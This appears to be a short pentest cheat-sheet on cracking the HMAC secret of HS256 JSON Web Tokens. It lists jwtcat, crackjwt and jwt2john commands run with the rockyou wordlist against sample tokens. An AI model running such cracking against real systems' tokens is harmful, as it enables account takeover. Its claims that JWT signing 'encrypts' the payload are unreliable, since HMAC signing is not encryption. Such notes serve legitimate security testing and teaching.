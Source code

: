 JSON Web Token is a compact mechanism used for transferring claims between two Endpoint to protect the integrity of the underlying message using a Message Authentication Code (MAC) encrypted. A JSON Web Token consists of three parts; an encoded Header, an encoded Payload and the Signature.


* The Header contains metadata, defines the type of token and the algorithm used for encryption of Payload.
* The Payload contains the claims to routes and services in value key pairs. 
* The signature is calculated by encrypting the base64UrlEncoded values of Header and Payload using a secret Key





### HMAC secretKey  Brute-force attacks Using Known Wordlist attacks
The algorithm HS256 uses the secret key to sign and verify each message. The algorithm RS256 uses the private key to sign the message and uses the public key for authentication

```
python3 jwtcat.py -t eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqd3QiOiJwd24ifQ.4pOAm1W4SHUoOgSrc8D-J1YqLEv9ypAApz27nfYP5L4 -w /usr/share/wordlists/rockyou.txt

python3 jwtcat.py -t eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.J8SS8VKlI2yV47C4BtfYukWPx_2welF34Mz7l-MNmkE -w /usr/share/wordlists/rockyou.txt

python3 jwtcat.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqd3QiOiJwd24ifQ.4pOAm1W4SHUoOgSrc8D-J1YqLEv9ypAApz27nfYP5L4 -w /usr/share/wordlists/rockyou.txt

python crackjwt.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqd3QiOiJwd24ifQ.4pOAm1W4SHUoOgSrc8D-J1YqLEv9ypAApz27nfYP5L4 /usr/share/wordlists/rockyou.txt

python jwt2john.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqd3QiOiJwd24ifQ.4pOAm1W4SHUoOgSrc8D-J1YqLEv9ypAApz27nfYP5L4  > jwt.john

```
